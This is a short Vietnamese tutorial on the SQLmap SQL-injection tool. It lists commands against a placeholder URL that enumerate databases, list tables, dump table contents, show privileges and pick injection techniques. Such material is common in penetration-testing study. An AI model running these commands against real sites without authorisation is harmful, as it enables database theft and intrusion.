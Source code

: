 ## SQLmap

### Cài đặt SQLmap
Nếu bạn đang sử dụng Kali Linux, SQLmap thường được cài sẵn.

Cài đặt thủ công: 
```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap
cd sqlmap
```

### Các lệnh cơ bản của SQLmap
- Quét mục tiêu:

```bash
sqlmap -u "http://example.com/index.php?id=1"
```
    
    - -u: Chỉ định URL mục tiêu.
    - Mục tiêu ở đây là URL chứa tham số khả nghi (vd: id=1).

- Tự động dò tìm kiểu tấn công:

```bash
sqlmap -u "http://example.com/index.php?id=1" --dbs
```

    `--dbs`: Liệt kê các cơ sở dữ liệu trên máy chủ.

- Chọn cơ sở dữ liệu và xem bảng:

```bash
sqlmap -u "http://example.com/index.php?id=1" -D database_name --tables
```

    -D database_name: Chọn cơ sở dữ liệu.

    --tables: Liệt kê các bảng.

- Truy xuất dữ liệu từ bảng:

```bash
sqlmap -u "http://example.com/index.php?id=1" -D database_name -T table_name --dump
```

    -T table_name: Chọn bảng.

    --dump: Tải toàn bộ dữ liệu từ bảng.

- Kiểm tra và khai thác quyền admin:

```bash
sqlmap -u "http://example.com/index.php?id=1" --privileges
```

    --privileges: Hiển thị quyền hạn của user cơ sở dữ liệu.

### Một số tùy chọn nâng cao

- Dùng cookie: Nếu trang web yêu cầu xác thực qua cookie.

```bash
sqlmap -u "http://example.com/index.php?id=1" --cookie="PHPSESSID=abcd1234"
```

- Chạy POST request:
```bash
sqlmap -u "http://example.com/index.php" --data="id=1&name=test"
```

- Chọn payload cụ thể:
```bash
sqlmap -u "http://example.com/index.php?id=1" --technique=U
```

    --technique=U: Chỉ thử khai thác UNION-based SQLi.
    Các giá trị có thể là B, E, T, U, S, Q.

Kí hiệu | Loại | Mô tả
--|--------------------|---------
B |	Boolean-based Blind	| Tấn công SQLi mù dựa trên đánh giá đúng/sai của câu truy vấn SQL (thông qua phản hồi).
E |	Error-based |	Dựa trên lỗi trả về từ máy chủ để lấy dữ liệu (các thông báo lỗi SQL).
T |	Time-based Blind |	Tấn công SQLi mù dựa trên thời gian trễ khi thực thi truy vấn SQL.
U |	Union Query-based |	Sử dụng mệnh đề UNION SELECT để hợp nhất kết quả từ nhiều truy vấn SQL.
S |	Stacked Queries |	Gửi nhiều truy vấn SQL trong một câu lệnh (thường cần máy chủ hỗ trợ).
Q |	Out-of-Band (OOB)


- `--batch` để thực thi hết các lựa chọn 

- `--risk` [1,2,3]

- `--level` [1,2,3,4,5]

- `--random-agent`

















